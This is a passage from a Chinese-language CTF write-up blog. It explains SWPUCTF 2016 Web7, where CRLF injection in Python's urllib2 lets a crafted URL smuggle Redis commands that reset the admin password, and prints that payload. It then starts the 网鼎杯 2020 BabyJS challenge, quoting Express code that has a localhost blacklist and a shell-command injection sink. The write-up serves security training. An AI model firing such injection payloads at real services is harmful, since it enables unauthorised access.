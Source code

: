 ```python
            password=cherrypy.request.params["password"]
            submit=cherrypy.request.params["submit"]
            if r.get("admin")==password:
                re=open("flag",'r').readline()
            else:
                re="Can't find admin:"+password+",fast fast fast....."
        file=file.replace("<?response?>",re)
        return file
cherrypy.config.update({'server.socket_host': '0.0.0.0',
                        'server.socket_port': 8080,
                       })
cherrypy.quickstart(web7(),'/')
```

使用的urllib2.urlopen库只支持http https ftp file这几种schema，不能用gopher，但是有个cve（和上周搞的nodejs的那个有点像），它在处理url的时候没有考虑换行符，所以我们可以在正常的http头中插入任意内容

![image-20211211155739444](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211155739444.png)

真的跟nodejs那个很像，node那个还多一个介质（处理unicode字符时转化出问题），所以我们只要向redis中写入输入改掉admin密码就行了

```
http://127.0.0.1%0d%0aset%20admin%20admin%0d%0asave%0d%0a:6379/amiz
```

参考：[wp](https://tiaonmmn.github.io/2019/09/12/SWPUCTF-2016-Web7/)

{{% /spoiler %}}

{{% spoiler "[网鼎杯 2020 半决赛]BabyJS" %}}

是express框架，cookie的session字段初始是`{"admin":"no"}`，改为yes后还是会重定向回来；然后发现自己眼瞎没看见附件，我的；详细的路由代码在index.js，看到blacklist就有SSRF的既视感了

```js
var express = require('express');
var config = require('../config');
var url=require('url');
var child_process=require('child_process');
var fs=require('fs');
var request=require('request');
var router = express.Router();


var blacklist=['127.0.0.1.xip.io','::ffff:127.0.0.1','127.0.0.1','0','localhost','0.0.0.0','[::1]','::1'];

router.get('/', function(req, res, next) {
    res.json({});
});

router.get('/debug', function(req, res, next) {
    console.log(req.ip);
    if(blacklist.indexOf(req.ip)!=-1){	// req.ip在黑名单中
        console.log('res');
	var u=req.query.url.replace(/[\"\']/ig,'');
	console.log(url.parse(u).href);
	let log=`echo  '${url.parse(u).href}'>>/tmp/log`;
	console.log(log);
	child_process.exec(log);	// 命令执行
	res.json({data:fs.readFileSync('/tmp/log').toString()});
    }else{
        res.json({});
    }
});


```
